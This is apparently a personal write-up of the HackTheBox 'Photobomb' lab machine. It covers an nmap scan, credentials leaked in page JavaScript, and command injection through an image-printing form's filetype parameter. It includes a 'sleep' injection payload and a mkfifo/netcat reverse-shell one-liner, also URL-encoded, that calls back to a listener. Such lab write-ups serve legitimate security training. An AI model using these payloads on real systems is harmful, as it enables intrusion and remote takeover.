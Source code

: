 # Photobomb WIP
## Start: 24/10/2022
### IP Address: 10.10.11.182

Ok so first things first, nmap scan, -sV for services/versions -sC for any default scripts we can run, Pn to treat the host as online (as we know it is)

```
$> nmap 10.10.11.182 -sV -sC -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-24 19:53 BST
Nmap scan report for 10.10.11.182
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds

```

Ok standard server with SSH and a webbed site which seems to wanting to point us to photobomb.htb, which i'll add to my hosts file just for ease of use.

I mostly swap to the inbuilt browser in burpsuite whenever i look at websites just so that any action i take i can always send to the repeater function and replay them with modifications.

#### Homepage
![Picture of homepage](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/home.png)
Page is very simple, has a link to a "printer" page with a username and password
Looking at the home page source code it seems some careless admin has just given out some credentials in the photobomb.js file loaded by default.
![Picture of leaked privs](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/leaked_privs.png)
So pH0t0 : b0Mb! ok. the name Jameson given here could be useful too.
#### Printer page
![Picture of admin prompt](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer.png)
Well we have some credentials.. might as well try them
![Picture of successful login](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer_success.png)
So this page looks to ask us to select a picture and a size / filetype to download for printing purposes.
It does this by making a post request along with the form data to the same site at /printer, so lets make one manually, as we can specifiy the file name, my initial thought is can we potentially use this to view other files?

So lets hit that button and inspect the request!
![Picture of repeater](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/repeat.png)
So we send a filename, filetype and size. 
Well lets not send anything! What do we get back? 500 error showing a backtrace of the ruby program which runs the server, including what it looks for. Here it shows it's matching a filename using 
![Picture of 500 error 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_1.png)
```
if photo.match(/\.{2}|\//)
```
Well i dont know regex well enough, but it seems it checks for either a `..` or a `/` symbol to try to block directory inclusions
The filename seems secure enough, it can only find pictures that are there, ignores directories, and causes the whole page to error if the system doesn't find the file.
So lets try another parameter, we can use the same technique to view the regex backtrace for the filetype.
![Picture of 500 error 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_2.png)
```
 if !filetype.match(/^(png|jpg)/)
```
again, im not the best with regex. but this regex allows any character as long as it has png or jpg in it, well lets try and breakout using this parameter, i'll put a semicolon and a sleep command and see what happens
```
photo=.&filetype=png;sleep 20&dimensions=0x0
```
and what do you know, that page took ages to load.. about 20 seconds!
![Picture of loading page](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/waiting20.png)
### Command Injection
Well first things first, we seem to have command injection, can we reverse shell at this stage?
There are many different ways to reverse shell, the one that always seems to work for me is below:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $IP $PORT >/tmp/f
```
lets url encode that, setup a netcat listener and see if we get a connection!
![Picture of nc](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/nc-startup.png)
encoded comes out to
```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%36%2e%35%31%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66
```
![Picture of exploit 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_page.png)
![Picture of exploit 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_shell.png)
SHELL ACCESS!
We are in command of the user "wizard", lets check this home directory out!
![Picture of user home folder](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/user_folder.png)
And here we find the user.txt flag, I'll let you grab that yourself if you're reading this :)
